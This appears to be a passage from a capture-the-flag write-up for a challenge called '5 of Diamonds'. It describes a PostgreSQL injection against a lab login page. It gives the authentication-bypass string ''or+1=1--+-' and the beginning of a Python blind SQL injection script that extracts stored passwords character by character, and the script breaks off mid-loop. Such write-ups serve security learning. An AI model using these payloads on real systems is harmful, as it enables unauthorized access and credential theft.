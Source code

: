 ----

## 5 of Diamonds

> Solver is **Yootaek Lim** from **STLCTF**

11111/tcp에 접근 시 로그인 할 수 있는 웹페이지가 나온다. 사용자명은 admin, 패스워드에 postgresql injection을 통해 공격하여 플래그를 획득할 수 있다.

```
username=admin&password='or+1=1--+-
```

and also we wrote blind sql injection script for it.

```python
#!/usr/bin/env python3

import requests
import argparse
import string

def login(host, port, username, password):

    url = f"http://{host}:{port}/login"
    pay = f"username={username}&password={password}"

    ses = requests.Session()
    req = requests.Request(
        method='POST',
        url=url,
        data=pay,
        headers={'Content-Type': 'application/x-www-form-urlencoded'}
    )

    pre = req.prepare()
    pre.url = url
    pre.body = pay

    response = ses.send(pre, allow_redirects=False)
    if response.status_code != 303:
        return False # login failed.
    else:
        return True

def run(host, port):
    
    db_name_len = 8
    db_name     = 'postgres'
    table_name  = 'registered_users'

    payload_upper = ''''+or+(select+ascii(substr((select+password+from+registered_users+limit+1+offset+0),{},1)))>{}+--'''
    payload_lower = ''''+or+(select+ascii(substr((select+password+from+registered_users+limit+1+offset+0),{},1)))<{}+--'''
    payload_equal = ''''+or+(select+ascii(substr((select+password+from+registered_users+limit+1+offset+0),{},1)))={}+--'''

    offset = 0
    password = ''

    while not login(host, port, 'admin', payload_equal.format(offset+1, 0)):

        offset += 1
        cmpmin = 0x20
        cmpmid = 0x50
```